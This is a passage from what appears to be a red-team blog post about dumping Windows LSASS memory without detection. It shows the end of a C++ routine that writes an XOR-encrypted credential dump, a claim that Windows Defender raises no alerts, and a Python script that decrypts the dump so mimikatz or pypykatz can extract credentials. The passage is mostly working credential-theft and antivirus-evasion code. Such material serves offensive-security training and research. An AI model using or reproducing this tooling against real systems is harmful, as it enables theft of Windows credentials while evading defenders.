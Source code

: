 ```cpp
	WriteFile(hFile, dumpBuffer, dumpSize, &bytesWritten, NULL);
	printf("[+] Enrypted dump data written to \"LSASS_ENCRYPTED.DMP\" file\n");
}
```

Running the new version against Windows Defender raises no alerts. 

<img class="fill" src="https://raw.githubusercontent.com/Dec0ne/research/master/img/undetected-lsass-dump-workflow/wd_2.jpg">

Of course the dump file is XOR encrypted, but we can take it offline, decrypt it and then parse it with mimikatz or pypykatz using this ***decrypt.py*** script.

```python
# Red Team Operator course code template
# payload encryption with XOR
#
# author: reenz0h (twitter: @sektor7net)

import sys
from itertools import cycle

key = bytearray("jisjidpa123","utf8")
filename = "LSASS_DECRYPTED.DMP"

try:
    data = bytearray(open(sys.argv[1], "rb").read())
except:
    print("File argument needed! %s <raw payload file>" % sys.argv[0])
    sys.exit()

if len(sys.argv) > 2 and sys.argv[2] == "1":
    print("len: {}".format(len(data)))
    print('{ 0x' + ', 0x'.join(hex(x)[2:] for x in data) + ' };')
    sys.exit()
xord_byte_array = bytearray(len(data))
if len(sys.argv) > 2 and sys.argv[2] != "1":
    filename = sys.argv[2]

f = open(filename, "wb")

l = len(key)
for i in range(len(data)):
    current = data[i]
    current_key = key[i % len(key)]
    xord_byte_array[i] = current ^ current_key


f.write(xord_byte_array)
f.close()

print("XORed output saved to \"{}\"".format(filename))
print("Xor Key: {}".format(key.decode()))
sys.exit()
```
